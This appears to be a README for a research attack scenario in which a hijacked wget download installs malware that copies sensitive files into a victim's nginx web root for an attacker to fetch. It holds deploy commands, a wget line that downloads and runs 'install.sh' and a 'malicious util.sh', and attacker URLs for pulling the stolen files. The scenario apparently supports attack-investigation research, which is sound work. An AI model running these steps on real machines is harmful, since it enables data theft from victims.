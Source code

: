 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attacker steals those files by connecting and requesting to victim's server.

### Similar scenario

[Rain: Refinable Attack Investigation with On-demand Inter-Process Information Flow Tracking](https://iisp.gatech.edu/sites/default/files/images/rain.pdf)

In their motivating example, the attacker compromised a distribution site of an firefox extension *FireFTP*, the original extension has been replaced with a malicious one.

## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/install.sh \
       https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/util.deb \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg1 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg2 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg3 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg4 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg5 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg6 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg7 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg8 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg9 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg10 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg11 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg12 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg13 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg14 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg15 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg16 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg17 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg18 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg19 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg20 \

./install.sh
```
2. Execute malicious `util.sh`

```
util.sh
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```


